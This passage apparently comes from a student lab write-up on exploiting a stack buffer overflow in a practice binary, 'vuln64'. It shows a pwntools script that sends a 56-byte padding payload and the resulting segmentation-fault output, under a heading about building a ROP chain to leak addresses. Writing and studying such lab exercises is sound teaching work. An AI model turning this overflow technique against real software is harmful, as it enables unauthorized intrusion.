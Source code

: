 ## Create ROP chain to puts() call and leak memory address using python3 pwntools

Next, we will create our exploit and test to confirm that we can overflow the buffer.

```sh
from pwn import *


context.arch = 'amd64' # set runtime variables in a global setting.

#initialize process for pwntools
elf = ELF("../app/vuln64")
p = elf.process(["../app/vuln64" , "h"])

offset = 56

payload = [
	b"A" * offset,
	b"BBBB"

]

payload = b"".join(payload)
p.sendline(payload)
p.recvline()
p.recvline()

p.interactive()
```

Executing our script with Python3

```sh
┌──(student㉿kali)-[~/Desktop/assign2/exploit]
└─$ python3 exploit64.py
[*] '/home/student/Desktop/assign2/app/vuln64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/student/Desktop/assign2/app/vuln64': pid 1341
[*] Process '/home/student/Desktop/assign2/app/vuln64' stopped with exit code -11 (SIGSEGV) (pid 1341)
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$  

```

Confirming that our exploit is working as intended.
